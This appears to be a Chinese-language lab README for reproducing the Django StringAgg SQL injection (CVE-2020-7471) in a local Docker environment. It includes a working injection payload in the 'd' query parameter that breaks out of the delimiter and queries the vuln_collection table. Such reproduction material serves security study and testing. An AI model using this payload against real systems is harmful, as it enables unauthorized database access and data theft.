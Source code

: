 # Django StringAgg SQL注入漏洞（CVE-2020-7471）

Django在2020年2月3日发布了一个安全更新，修复了在StringAgg函数中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/feb/03/security-releases/

该漏洞需要开发者使用了StringAgg聚合函数，用户可控其delimiter参数进行查询时，在其位置注入SQL语句。

## 漏洞环境

执行如下命令编译及启动一个存在漏洞的Django 2.2.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`看到一个页面。这个页面使用了Postgresql数据库的StringAgg函数来根据用户输入的连接符聚合新闻，比如使用`http://your-ip:8000/?d=-`即可得到根据连接符“-”聚合数据的结果：

![](1.png)

## 漏洞复现

修改GET参数`d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`提交，其中`vuln_collection`是`vuln`应用下的模型`Collection`

`http://127.0.0.1:8000/?d=-') AS "group" FROM "vuln_collection" GROUP BY "vuln_collection"."id" LIMIT 1--`

成功注入SQL语句并获得信息：

![](2.png)
